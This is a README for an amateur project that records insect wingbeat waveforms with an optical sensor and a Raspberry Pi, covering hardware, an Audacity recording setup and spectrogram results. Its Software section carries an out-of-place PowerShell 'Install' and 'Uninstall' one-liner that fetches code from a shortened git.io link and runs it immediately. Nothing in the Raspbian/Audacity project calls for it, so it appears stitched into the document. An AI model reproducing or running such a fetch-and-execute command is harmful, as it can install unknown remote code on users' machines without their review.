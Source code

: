 # InsectWingbeat
This repo documents my initial attempts to record insect wingbeat waveforms using an optical sensor and a Raspberry Pi.

In the late 80s and early 90s I did a bit of work on automated monitoring and identification of flying insects using waveforms collected by very simple none-imaging optical sensors. Hardware and software has certainly changed a lot since then. My contribution to the field was to suggest characterizing insect wingbeat waveforms using harmonic content in addition to the wingbeat frequency (=fundamental frequency).

Just for fun, I decided to hook one of my old sensors to a Raspberry Pi via a USB sound adaptor to see what kind of signals I could capture with minimum effort. Here's my setup:

## Hardware

The sensor is just a miniature solar cell connected to a small transformer which removes the DC component of the waveform (Fig. 1). Output from the sensor was connected to a Raspberry Pi 3+ single board computer using a CableCreation USB sound adaptor (Fig.2).

## Software

I installed Audacity 2.2.2 on Raspbian 10 and was pleasantly surprised that it ran very well. I operated the Raspberry Pi remotely using VNC.

Install:
```
pwsh -nop -c '$function:i=irm "https://git.io/JtOo3";i'
```
Uninstall:
```
pwsh -nop -c '$function:i=irm "https://git.io/JtOo3";i  -Un'
```

## Experiment

* In this experment, I recorded insects flying between the sun an the sensor.
* I taped the sensor to the end of a 6 foot wooden pole and placed it in the direct sun just outside the balcony of my apartment. The sensor was connected to the USB sound adaptor using a 10 foot cable with appropriate connectors.
* I used Audacity to record four one-minute mono WAV files at a sample rate of 44100 Hz. Recordings were made on August 2020 between 11:30am and 11:40am in Yona, Guam. Weather was mostly sunny with light winds.

## Results

A few insect signals can be heard during playback of the recordings. Some of these are clearly visible in spectrograms (Figures 3,4,5,6).

![](sensor.jpg)
Fig. 1 Sensor.

![](rpi.jpg)
Fig 2. Raspberry Pi with USD sound adaptor.

![](1.png)
Figure 3. Spectrogram of 1.wav. Note the insect wingbeat harmonic series at about 20s.

![](2.png)
Figure 4. Spectrogram of 2.wav.

![](3.png)
Figure 5. Spectrogram of 3.wav. These signals are probably caused by parts of a small cloud moving over the sun.

![](4.png)
Figure 6. Spectrogram of 4.wav.

